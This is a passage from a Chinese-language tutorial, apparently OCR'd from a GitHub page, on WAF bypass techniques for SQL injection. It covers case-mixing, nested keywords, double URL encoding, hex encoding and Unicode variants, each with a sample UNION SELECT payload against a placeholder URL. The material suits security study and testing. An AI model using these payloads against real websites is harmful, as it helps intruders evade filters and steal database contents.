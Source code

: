 f)使用特殊符号 
  
g)HTTP参数控制 
  
h)缓冲区溢出 
  
i)整合绕过 

j)json 格式绕过  

  
### a) 大小写绕过
  
大小写绕过用于只针对小写或大写的关键字匹配技术，正则表达式/express/i 匹配时大小写不敏感便无法绕过，这是最简单的绕过技术
  
`z.com/index.php?page_id=-15 uNIoN sELecT 1,2,3,4 ` 
  

  
示例场景可能的情况为filter的规则大小写敏感，现在直接使用这种绕过技术成功的可能性已经不高了吧
  
### b)替换关键字
  
这种情况下大小写转化无法绕过，而且正则表达式会替换或删除select、union这些关键字，如果只匹配一次就很容易绕过
  
`z.com/index.php?page_id=-15 UNIunionON SELselectECT 1,2,3,4` 
  

  
替换关键字同样是很基础的技术，也可以构造得更复杂SeLSeselectleCTecT，关键要看正则表达式会进行几次匹配处理了
  

  
### c)使用编码
  
1.URL编码  
在Chrome中输入一个链接非保留字的字符，浏览器会对其URL编码如空格变为%20、单引号%27、左括号%28、右括号%29
  
普通的URL编码可能无法实现绕过，不过存在某种情况URL编码只进行了一次解码过滤，可以用两次编码绕过
  
`page.php?id=1%252f%252a*/UNION%252f%252a/SELECT` 
  

  
2.十六进制编码  
`z.com/index.php?page_id=-15 /*!u%6eion*/ /*!se%6cect*/ 1,2,3,4,SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61))`
  

  
示例代码中前者是对单个字符十六进制编码，后者则是对整个字符串编码，相对来说较少见一点
  

  
3.Unicode编码  
  
Unicode有所谓的标准编码和非标准编码，假设我们用的utf-8为标准编码，那么西欧语系所使用的就是非标准编码了
  
看一下常用的几个符号的一些Unicode编码
  
```
  
单引号：%u0027、%u02b9、%u02bc、%u02c8、%u2032、%uff07、%c0%27、%c0%a7、%e0%80%a7
  

  
空格：%u0020、%uff00、%c0%20、%c0%a0、%e0%80%a0
  

  
左括号：%u0028、%uff08、%c0%28、%c0%a8、%e0%80%a8
  

  
右括号：%u0029、%uff09、%c0%29、%c0%a9、%e0%80%a9
  
```
  